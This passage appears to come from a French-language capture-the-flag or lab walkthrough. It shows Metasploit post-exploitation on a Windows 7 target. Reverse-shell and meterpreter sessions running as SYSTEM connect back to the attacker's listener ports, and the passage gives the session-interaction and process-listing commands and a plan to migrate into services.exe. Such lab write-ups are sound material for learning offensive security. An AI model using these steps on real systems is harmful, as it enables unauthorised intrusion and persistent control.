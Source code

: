   Id  Name  Type                     Information                                            Connection
  --  ----  ----                     -----------                                            ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601]     &lt;IP_ATTACK&gt;:4444 -> &lt;IP_CIBLE&gt;:49306 (&lt;IP_CIBLE&gt;)     
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                           &lt;IP_ATTACK&gt;:4433 -> &lt;IP_CIBLE&gt;:49337 (&lt;IP_CIBLE&gt;)
</pre>

<br>Tapez:

```bash
set SESSION 2
```
<pre>
SESSION => 2
</pre>

<br>Tapez:

```bash
sessions -i 2
```

<pre>
[*] Starting interaction with 1...

meterpreter > 
</pre>

<br>

<pre>
Nous avons maintenant une session <b>meterpreter</b>.
Nous fonctionnons en tant que système, mais cela n'indique pas que notre processus le soit.
Nous devons migrer vers un autreprocessus. En général, nous utilisons services.exe.
</pre>

<br>Tapez:

```bash
ps
```

<pre>
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 512   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 540   532   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 584   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 588   532   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 600   580   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 640   580   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 <b>668   588   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe</b>
 688   588   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe